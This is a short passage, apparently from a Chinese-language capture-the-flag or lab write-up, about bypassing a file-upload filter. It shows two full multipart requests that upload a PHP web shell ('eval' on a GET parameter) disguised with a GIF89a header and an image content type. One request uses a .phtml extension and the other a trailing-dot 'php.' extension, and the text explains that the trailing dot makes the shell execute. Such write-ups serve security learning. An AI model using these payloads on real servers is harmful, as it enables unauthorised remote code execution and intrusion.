 ![](./images/image-6.png)

```
-----------------------------60487661513624885101007722530
Content-Disposition: form-data; name="upload"; filename="shell.phtml"
Content-Type: image/jpg

GIF89a
<?php eval($_GET["cmd"]);?>

-----------------------------60487661513624885101007722530--
```

成功绕过👇

![](./images/image-7.png)

但是呢，通过`url`访问只会把文件下载下来，这里需要在`php`后面再加一个点才能绕过

```
-----------------------------168307501742120550952749914248
Content-Disposition: form-data; name="upload"; filename="123.php."
Content-Type: image/jpg

GIF89a
<?php eval($_GET["cmd"]);?>

-----------------------------168307501742120550952749914248--
```
